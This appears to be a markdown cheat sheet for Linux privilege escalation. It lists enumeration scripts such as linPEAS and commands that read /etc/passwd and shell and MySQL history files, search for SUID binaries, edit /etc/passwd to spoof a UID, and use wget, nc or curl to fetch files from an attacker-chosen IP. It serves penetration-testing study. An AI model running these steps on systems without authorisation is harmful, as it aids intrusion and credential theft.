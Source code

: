 ## Linux privilege Escalation

* Automated enumeration scripts

```
// https://github.com/diego-treitos/linux-smart-enumeration.git
./lse.sh > output.txt

// https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
linpeas -a > /dev/shm/linpeas.txt
```

* Enumerate General information

```
  # Part of too many groups? Find out all the files you've access to
  for i in $(groups); do echo "=======$i======"; find / -group $i 2>/dev/null | grep -v "proc" >> allfiles; done

  # Look what the user was up to
  less .bash_history
  less mysql_history
```

* Enumerating Users

```
id
whoami
cat /etc/passwd
```

* Get System information

```
cat /etc/issue
cat /etc/*-release
uname -a
```

* Check bash History

```
cat ~/.bash_history
```

* Enumerating Running Processes and Services

```
ps axu
```

* Enumerating Networking Information

```
ip a
/sbin/route
netstat -anp
ss -anp
```

* Enumerating Firewall Status and Rules

```
Root privileges are required to list firewall rules with iptables
Can search for firewall dump configuration as user
		-Command: iptables-save
```

* Enumerating Scheduled Tasks

```
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
```

* Enumerating Installed Applications

```
Debian
    dpkg -l
Redhat
    rpm
```

* Enumerating Readable/Writable Files and Directories

```
RUN SUID3NUM to look for SUID bits with colors in python script
find / -writable -type d 2>/dev/null
find / -writable -type f 2>/dev/null
```

* Enumerating Unmounted Disks

```
/bin/lsblk
cat /etc/fstab
mount
```

* Enumerating Kernel Modules

```
// list modules
lsmod

// get details
/sbin/modinfo libata
```

* Enumerating Binaries That AutoElevate

```
find / -perm -u=s -type f 2>/dev/null
```

* Enumerate UID Spoofing

```
Find a file that might have creds but locked for a user that has UUID of '1014' who has rwx permissions on file
Add local user to machine through adduser command 
Change added user to UUID to '1014' and switch to that user and access the file
Command to change specified UUID of new user to '1014'
Command: sudo sed -i -e 's/1001/1014/g' /etc/passwd
```

* File Transfer through HTTP

```
Wget
wget http://<ip>/file_name -O /path/to/save/file

Netcat
nc -nv <ip> <port> > file/to/recv

Curl
curl http://<ip>/file_name --output file_name
```

* Password Policy

```
grep "^PASS_MAX_DAYS\|^PASS_MIN_DAYS\|^PASS_WARN_AGE\|^ENCRYPT_METHOD" /etc/login.defs
```

* Linux PrivEsc Guide

```
// https://noobsec.net/
// https://book.hacktricks.xyz/linux-unix/privilege-escalation
```